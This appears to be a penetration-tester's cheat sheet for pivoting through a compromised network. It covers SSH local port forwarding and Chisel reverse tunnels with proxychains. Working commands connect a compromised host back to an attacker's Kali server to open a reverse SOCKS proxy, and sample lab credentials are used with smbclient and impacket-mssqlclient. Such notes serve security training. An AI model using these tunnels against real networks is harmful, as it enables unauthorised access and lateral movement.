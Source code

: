 ## Local port forwarding
- What it does: 
	- 1 listening port (on initial machine) to 1 port (behind network)
### SSH local port forwarding
- `ssh -N -L 0.0.0.0:[port to open on initial machine]:[ip of target machine behind network]:[target port] database_admin@[initial machine ip]`
	- E.g. `ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215`

## Dynamic port forwarding
- What it does:
	- 1 listening port (on initial machine) to anywhere (behind network)

## Dynamic port forwarding with Chisel
1. Download `chisel64.exe` on initial machine
2. Start chisel executable on Kali:
	`chisel64.elf server -p 8000 --reverse`
3. Connect to it from initial machine:
	`chisel64.exe client 192.168.45.127:8000 R:socks`
4. Edit `/etc/proxychains4.conf` to add the line:
	`socks5 127.0.0.1:1080`
5. Done!
	`proxychains [normal command as if you were issuing it from the initial machine]`
	E.g. `proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234`

## Local port forwarding with Chisel
1. Download `chisel64.exe` on initial machine
2.  Start chisel executable on Kali:
	`chisel64.elf server -p 8000 --reverse`
3. Connect to it from initial machine:
	`cmd /c chisel.exe client <kaliIP:port> R:<kali port to forward to>:127.0.0.1:<local port to forward>`
	E.g. `chisel.exe client $KaliIP:445 R:1433:127.0.0.1:1433`
4. Run your command from Kali:
	`impacket-mssqlclient svc_mssql:'Service1'@127.0.0.1 -windows-auth`
